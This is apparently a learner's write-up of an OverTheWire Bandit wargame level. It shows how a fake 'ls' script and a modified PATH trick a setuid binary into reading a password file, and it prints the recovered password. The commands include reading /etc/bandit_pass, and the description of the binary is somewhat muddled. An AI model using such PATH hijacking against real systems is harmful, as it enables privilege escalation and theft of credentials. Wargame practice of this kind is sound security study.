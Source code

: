 # Bandit Level 29 ➔ Level 30

## 🧠 Goal:
There’s a **setuid binary** called `bandit30` in the home directory.  
When run, it **executes whatever is in the environment variable `PATH`**, but it uses an **unsafe path configuration**.

You need to:
1. Create a malicious script named `ls`.
2. Manipulate the `PATH` variable to point to your script first.
3. Run the binary and capture the password.

---

## 🔐 Login:
```bash
ssh bandit29@bandit.labs.overthewire.org -p 2220
```

## 🛠️ Commands Used:
```bash
#mkdir /tmp/fakepath
echo '#!/bin/bash' > /tmp/fakepath/ls
echo 'cat /etc/bandit_pass/bandit30' >> /tmp/fakepath/ls
chmod +x /tmp/fakepath/ls
export PATH=/tmp/fakepath:$PATH
./bandit30
```

## 🧾 Password Found:
`b5Ycw5sTw7x9S7GkUD3fjwlhbEZHTBmw`

## 📘 What I Learned:
-How command injection can happen due to unsafe PATH usage.
-	The power of overriding system binaries in your custom path.
-	Why secure coding practices should avoid relying on user-controlled environments.
